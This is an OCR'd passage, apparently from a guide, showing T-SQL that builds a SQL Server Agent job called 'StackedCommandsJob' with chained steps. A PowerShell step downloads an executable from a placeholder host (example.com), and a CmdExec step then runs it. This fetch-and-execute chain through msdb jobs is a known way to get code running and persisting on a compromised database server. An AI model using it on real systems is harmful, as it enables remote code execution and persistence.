    ```sql
   USE msdb;
   GO

   -- Create a new job
   EXEC sp_add_job 
       @job_name = N'StackedCommandsJob', 
       @enabled = 1, 
       @description = N'Job to execute stacked commands', 
       @notify_level_eventlog = 2;
   ```

2. **Add a T-SQL Step**:
   - First, add a T-SQL step that performs some SQL operation.

   ```sql
   -- Add a T-SQL step to the job
   EXEC sp_add_jobstep 
       @job_name = N'StackedCommandsJob', 
       @step_name = N'T-SQL Step', 
       @subsystem = N'TSQL', 
       @command = N'SELECT GETDATE();', 
       @retry_attempts = 0, 
       @retry_interval = 0;
   ```

3. **Add a PowerShell Step**:
   - Next, add a PowerShell step that downloads a file from the web.

   ```sql
   -- Add a PowerShell step to the job
   EXEC sp_add_jobstep 
       @job_name = N'StackedCommandsJob', 
       @step_name = N'PowerShell Step', 
       @subsystem = N'PowerShell', 
       @command = N'Invoke-WebRequest -Uri "http://example.com/file.exe" -OutFile "C:\Tools\file.exe"', 
       @retry_attempts = 0, 
       @retry_interval = 0;
   ```

4. **Add a CmdExec Step**:
   - Finally, add a CmdExec step that runs the downloaded file.

   ```sql
   -- Add a CmdExec step to the job
   EXEC sp_add_jobstep 
       @job_name = N'StackedCommandsJob', 
       @step_name = N'CmdExec Step', 
       @subsystem = N'CMDEXEC', 
       @command = N'C:\Tools\file.exe', 
       @retry_attempts = 0, 
       @retry_interval = 0;
   ```

5. **Schedule the Job**:
   - You can schedule the job to run automatically or start it manually.
